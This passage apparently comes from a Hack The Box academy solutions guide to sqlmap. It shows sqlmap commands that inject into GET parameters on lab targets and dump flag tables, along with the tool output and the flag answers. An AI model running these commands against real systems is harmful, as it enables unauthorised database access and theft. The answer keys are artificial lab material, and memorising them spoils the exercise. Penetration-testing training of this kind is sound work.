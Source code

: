 ```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:30991/case5.php?id=*' --level 5 --risk 3 -T flag5 --batch --dump

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.8#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[18:20:58] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly

<SNIP>

Database: testdb
Table: flag5
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r15k_bu7_w0r7h_17}       |
+----+---------------------------------------+
```

Answer: `HTB{700_much_r15k_bu7_w0r7h_17}`

# Attack Tuning

## Question 2

### "What's the contents of table flag6? (Case #6)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #6" to notice that they need to exploit the `GET` parameter `col` that has non-standard boundaries:

![[HTB Solutions/CBBH/z. images/af9ad5289a3cc0329f3d520136e51a67_MD5.jpg]]

Thus, the `sqlmap` command will be:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case6.php?col=id' --prefix='\`)' --batch -T flag6 --dump
```
